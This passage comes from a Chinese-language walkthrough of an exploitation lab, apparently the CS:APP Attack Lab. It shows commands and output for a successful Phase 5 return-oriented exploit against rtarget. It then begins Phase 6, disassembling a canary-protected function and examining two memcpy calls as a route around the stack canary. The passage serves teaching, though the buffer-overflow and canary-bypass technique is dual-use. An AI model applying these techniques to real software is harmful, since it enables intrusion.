 运行：

```bash
./hex2raw < p5.txt > p5a.txt
./rtarget -i p5a.txt
```

大功告成！

```text
Cookie: 0x11a67610
Touch3!: You called touch3("11a67610")
Valid solution for level 3 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

## Phase 6

由于前面的 Phase4 已经把所有能踩的坑全踩了一遍，Phase6 做的还挺快的。

老样子，先进行反汇编操作：

```bash
objdump -d starget > starget.s
```

观察代码其中的 `getbuf_withcanary` 函数，发现这个函数现在有了金丝雀值保护，这意味着我们不能简单地通过栈溢出解决。

但我们同时注意到，其代码中存在两个奇怪的 `memcpy` 函数，分别位于 `0x402141` 和 `0x40216a`：

```asm
  402118:	e8 ed 02 00 00       	call   40240a <Gets>
  40211d:	8b 85 70 ff ff ff    	mov    -0x90(%rbp),%eax
  402123:	48 63 d0             	movslq %eax,%rdx
  402126:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
  40212d:	48 8d 88 08 01 00 00 	lea    0x108(%rax),%rcx
  402134:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
  40213b:	48 89 ce             	mov    %rcx,%rsi
  40213e:	48 89 c7             	mov    %rax,%rdi
  402141:	e8 2a f2 ff ff       	call   401370 <memcpy@plt>
  402146:	8b 85 74 ff ff ff    	mov    -0x8c(%rbp),%eax
  40214c:	48 63 d0             	movslq %eax,%rdx
  40214f:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
  402156:	48 8d 8d 70 fe ff ff 	lea    -0x190(%rbp),%rcx
  40215d:	48 81 c1 08 01 00 00 	add    $0x108,%rcx
  402164:	48 89 c6             	mov    %rax,%rsi
  402167:	48 89 cf             	mov    %rcx,%rdi
  40216a:	e8 01 f2 ff ff       	call   401370 <memcpy@plt>
```

查阅 `memcpy` 的说明文档

```c
void *memcpy(void *str1, const void *str2, size_t n)
```

得知其接受三个参数，依次是 `目标地址 %rdi`、`源地址 %rsi`、`长度 %rdx`

